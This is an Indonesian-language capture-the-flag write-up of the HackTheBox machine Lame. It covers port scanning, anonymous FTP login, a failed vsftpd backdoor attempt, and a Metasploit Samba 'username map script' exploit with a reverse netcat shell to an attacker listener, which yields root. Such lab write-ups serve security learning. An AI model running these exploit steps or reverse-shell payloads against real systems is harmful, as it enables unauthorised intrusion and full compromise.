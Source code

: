 ```yaml
---
author_web: https://blog.hackstreet.id
title: HackTheBox - Lame
date: 2022-12-24T17:00:00.000+07:00
author: justakazh
tags:
- '445'
- samba
- hacking
- linux
- easy
- hackhebox
- writeup
categories: Capture The Flag
featured_image: "/uploads/justakazh/1-wkevarx8vamjiop87jbj3a.png"
author_description: Aku nulis karena aku pelupa
author_avatar: "/uploads/justakazh/1656477958868.jpeg"
author_facebook: https://facebook.com/
author_twitter: https://twitter.com/akazh18
author_instagram: https://instagram.com/
author_donation: https://paypal.me/jawagalawbgt

---
```

## Summary

Machine Name : Lame

Machine Difficult : Easy

Machine Author : [ch4p](https://app.hackthebox.com/users/1)

Machine URL : [Hack The Box](https://app.hackthebox.com/machines/Lame) 

## NMAP ENUMERATION

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/lame]
└─$ sudo nmap -sV 10.10.10.3                                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-13 12:35 HST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.38s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.63 seconds
zsh: segmentation fault  sudo nmap -sV 10.10.10.3
```

### 21 - FTP

Target tersebut memiliki port 21 yang dimana port tersebut merupakan port dari Service FTP, target tersebut menggunakan FTP vsftpd 2.3.4. disini saya tertarik untuk mencoba melakukan anonymous login pada FTP tersebut 

```bash
┌──(punktester㉿kali)-[~]
└─$ ftp lame.htb 21
Connected to lame.htb.
220 (vsFTPd 2.3.4)
Name (lame.htb:punktester): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Service tersebut mengizinkan seseorang untuk login menggunakan akun anonymous, sayangnya saya tidak bisa mencari informasi lebih jauh lagi dikarenakan konfigurasi dari ftp tersebut. selanjutnya saya mencoba mencari exploit untuk vsftpd 2.3.4 pada metasploit

```bash
msf6 exploit(multi/samba/usermap_script) > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 exploit(multi/samba/usermap_script) > 
```

saya menemukan exploit/unix/ftp/vsftpd_234_backdoor yang dimana modul ini adalah untuk memicu vsf_sysutil_extra(); berfungsi dengan mengirimkan urutan byte tertentu 
pada port 21, ketika eksekusi berhasil maka akan menghasilkan pembukaan backdoor pada sistem

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/U
                                      sing-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

sayangnya disini saya tidak berhasil melakukan exploitasi tersebut :')

### 22 - SSH

target tersebut menggunakan SSH dengan versi OpenSSH 4.7p1. ini merupakan versi yang sudah usang, disini saya mencoba untuk mencari exploit untuk versi tersebut dengan searchsploit

```bash
┌──(punktester㉿kali)-[~]
└─$ searchsploit OpenSSH 4.7
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                           | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                     | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation               | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                           | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                               | linux/remote/45939.py
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

tidak ada exploit menarik yang berimpact critical untuk versi tersebut, disini saya akan melewati celah tersebut dan saya akan menggunakan exploit tersebut ketika saya membutuhkannya.

### 139,445 - SAMBA

target tersebut memiliki port 139 dan 445 untuk service Samba dengan versi smbd 3.X - 4.X. selanjutnya saya mencoba untuk mencari exploit untuk versi tersebut pada metasploit

```bash
msf6 exploit(multi/samba/usermap_script) > search type:exploit samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   1   exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   2   exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   3   exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   4   exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   5   exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   6   exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   7   exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   8   exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   9   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   10  exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   11  exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   13  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   14  exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   15  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   16  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow


Interact with a module by name or index. For example info 18, use 18 or use exploit/windows/http/sambar6_search_results
```

terdapat 18 modul yang saya temukan untuk exploit samba tersebut, setelah saya telusuri lebih lanjut target tersebut berpotensi rentan terhadap **Samba "username map script" Command Execution** yaitu pada module nomor 6 **exploit/multi/samba/usermap_script** yang dimana Modul ini mengeksploitasi kerentanan eksekusi perintah di Samba versi 3.0.20 hingga 3.0.25rc3 karena saat menggunakan non-default opsi konfigurasi "username map script". Dengan menentukan nama pengguna mengandung karakter meta shell, sehingga penyerang dapat melakukan RCE pada sistem tersebut.  

```bash
msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.4       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] Command shell session 2 opened (10.10.16.4:4444 -> 10.10.10.3:36449 ) at 2022-10-13 13:11:09 -1000

whoami
root
id
uid=0(root) gid=0(root)
pwd
/
```

GOTCHA! saya berhasil mendapatkan akses tersebut. disini menunjukan bahwa saya mendapatkan akses root pada server tersebut, atau dapat disimpulkan saya tidak perlu melakukan privilege escalation untuk mendapatkan akses root :D